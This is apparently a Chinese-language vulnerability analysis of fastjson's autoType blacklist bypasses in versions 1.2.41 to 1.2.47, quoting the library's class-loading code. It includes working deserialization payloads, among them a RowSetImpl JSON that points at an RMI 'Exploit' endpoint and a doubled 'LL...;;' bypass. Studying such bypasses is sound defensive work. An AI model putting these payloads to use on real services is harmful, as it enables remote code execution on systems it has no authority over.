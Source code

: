 ```
}
```

可见在显性关闭白名单的情况下，我们也需要绕过黑名单检测，同时加载的类不能继承自Classloader与DataSource。

该函数会先检查传入的@type的值是否是在黑名单里，然后再进入loadClass函数，这样的话如果loadClass函数里要是会对传入的class做一些处理的话，我们是不是就能绕过黑名单呢，跟进loadClass函数，

```
public static Class<?> loadClass(String className, ClassLoader classLoader, boolean cache) {
    if (className != null && className.length() != 0) {
        Class<?> clazz = (Class)mappings.get(className);
        if (clazz != null) {
            return clazz;
        } else if (className.charAt(0) == '[') {
            Class<?> componentType = loadClass(className.substring(1), classLoader);
            return Array.newInstance(componentType, 0).getClass();
        } else if (className.startsWith("L") && className.endsWith(";")) {
            String newClassName = className.substring(1, className.length() - 1);
            return loadClass(newClassName, classLoader);
```

可以看到当传入的className以L开头以 ; 结尾的时候会把className的首字符和最后一个字符截去，再去生成实例，于是绕过的poc就非常好写了，原来的payload的利用类的首尾加上这两个字符就Ok了。

{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

### 1.2.42绕过

除黑名单外，移除开头的L和结尾的;

![image-20201104165130275](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201104165130275.png)

LLcom.sun.rowset.RowSetImpl;;

## 0X05fastjson1.2.47分析

```
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
        //1.typeName为null的情况，略

        //2.typeName太长或太短的情况，略

        //3.替换typeName中$为.，略

        //4.使用hash的方式去判断[开头，或L开头;结尾，直接报错
        //这里经过几版的修改，有点不一样了，但是绕不过，也略

        //5.autoTypeSupport为true(白名单关闭)的情况下，返回符合白名单的，报错符合黑名单的
        //(这里可以发现，白名单关闭的配置情况下，必须先过黑名单，但是留下了一线生机)
        if (autoTypeSupport || expectClass != null) {
            long hash = h3;
            for (int i = 3; i < className.length(); ++i) {
                hash ^= className.charAt(i);
                hash *= PRIME;
                if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                    clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
                    if (clazz != null) {
                        return clazz;
                    }
                }
                //要求满足黑名单并且从一个Mapping中找不到这个类才会报错，这个Mapping就是我们的关键
                if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                    throw new JSONException("autoType is not support. " + typeName);
```
